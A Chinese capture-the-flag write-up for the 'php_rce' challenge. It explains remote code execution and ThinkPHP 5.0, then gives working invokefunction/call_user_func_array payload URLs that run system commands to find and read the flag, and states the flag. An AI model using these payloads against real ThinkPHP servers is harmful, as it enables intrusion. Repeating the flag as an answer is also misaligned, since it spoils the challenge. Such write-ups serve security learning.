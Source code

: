# php_rce

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=fab9bb4e-12e7-4158-b971-f560fad8891a_2)

想要做出来这道题就要先知道什么是rce。rce是Arbitrary code execution的缩写，意为远程代码执行。rce可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。rce分为远程命令执行ping和远程代码执行evel。

- ### RCE
- > rce是Arbitrary code execution的缩写，意为远程代码执行。rce可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。
- > 漏洞产生原因：服务器没有针对执行函数做过滤，导致在没有指定绝对路径的情况下就执行命令。

知道什么是rce后就能进场景里看看了。

![thinkPHP](https://github.com/C0nstellati0n/NoobCTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/images/thinkPHP.png)

我之前没有听过thinkPHP，所以在网上搜了一下。

- ### ThinkPHP
- > 为了简化企业级应用开发和敏捷WEB应用开发而诞生的开源轻量级PHP框架。

原来是个框架啊。既然题目叫php_rce，那么这道题的目标可能就是利用rce漏洞。我们能直观地看到场景中使用的版本是5.0，在网上随便一搜就能发现这个版本确实有rce漏洞。漏洞成因可以看这篇[文章](https://www.cnblogs.com/backlion/p/10106676.html)了解。

payload在GitHub上也有人整理出来了。这里挑选出对我们有用的payload。

- http://61.147.171.105:62178/?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=php%20-r%20%27system(%22find%20/%20-name%20%27flag%27%22);%27

其中vars[1][]后面的内容可以替换成任意你想要执行的命令。

- http://61.147.171.105:62178/?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=cat%20/flag

- ### Flag
- > flag{thinkphp5_rce}